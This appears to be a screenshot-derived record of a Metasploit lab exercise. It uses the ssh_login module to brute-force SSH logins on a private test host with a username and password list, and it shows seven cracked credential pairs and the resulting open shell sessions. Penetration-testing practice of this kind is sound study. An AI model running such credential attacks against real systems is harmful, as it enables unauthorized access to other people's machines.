 ```
[*] Command shell session 1 opened (192.20.21.2:41171 -> 192.20.21.3:22) at 2022-12-13 10:08:37 +0000
[+] 192.20.21.3:22 - Success: 'rooty:pineapple' ''
[*] Command shell session 2 opened (192.20.21.2:45393 -> 192.20.21.3:22) at 2022-12-13 10:10:05 +0000
[+] 192.20.21.3:22 - Success: 'demo:butterfly1' ''
[*] Command shell session 3 opened (192.20.21.2:41757 -> 192.20.21.3:22) at 2022-12-13 10:11:37 +0000
[+] 192.20.21.3:22 - Success: 'auditor:xbox360' ''
[*] Command shell session 4 opened (192.20.21.2:46115 -> 192.20.21.3:22) at 2022-12-13 10:13:21 +0000
[+] 192.20.21.3:22 - Success: 'anon:741852963' ''
[*] Command shell session 5 opened (192.20.21.2:33773 -> 192.20.21.3:22) at 2022-12-13 10:15:42 +0000
[+] 192.20.21.3:22 - Success: 'administrator:password1' ''
[*] Command shell session 6 opened (192.20.21.2:40981 -> 192.20.21.3:22) at 2022-12-13 10:17:57 +0000
[+] 192.20.21.3:22 - Success: 'diag:secret' ''
[*] Command shell session 7 opened (192.20.21.2:45293 -> 192.20.21.3:22) at 2022-12-13 10:20:15 +0000
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

```
msf5 > vim user_pass.txt
[*] exec: vim user_pass.txt
sysadmin hailey
rooty pineapple
demo butterfly1
auditor xbox360
anon 741852963
administrator password1
diag secret
```

```
msf5 > use auxiliary/scanner/ssh/ssh_login
msf5 auxiliary(scanner/ssh/ssh_login) > set USERPASS_FILE /root/user_pass.txt
USERPASS_FILE => /root/user_pass.txt
msf5 auxiliary(scanner/ssh/ssh_login) > sessions

Active sessions
===============

  Id  Name  Type           Information                                   Connection
  --  ----  ----           -----------                                   ----------
  1         shell unknown  SSH sysadmin:hailey (192.20.21.3:22)          192.20.21.2:37227 -> 192.20.21.3:22 (192.20.21.3)
  2         shell unknown  SSH rooty:pineapple (192.20.21.3:22)          192.20.21.2:38219 -> 192.20.21.3:22 (192.20.21.3)
  3         shell unknown  SSH demo:butterfly1 (192.20.21.3:22)          192.20.21.2:39813 -> 192.20.21.3:22 (192.20.21.3)
  4         shell unknown  SSH auditor:xbox360 (192.20.21.3:22)          192.20.21.2:46771 -> 192.20.21.3:22 (192.20.21.3)
  5         shell unknown  SSH anon:741852963 (192.20.21.3:22)           192.20.21.2:40449 -> 192.20.21.3:22 (192.20.21.3)
  6         shell unknown  SSH administrator:password1 (192.20.21.3:22)  192.20.21.2:36607 -> 192.20.21.3:22 (192.20.21.3)
  7         shell unknown  SSH diag:secret (192.20.21.3:22)              192.20.21.2:45257 -> 192.20.21.3:22 (192.20.21.3)
```
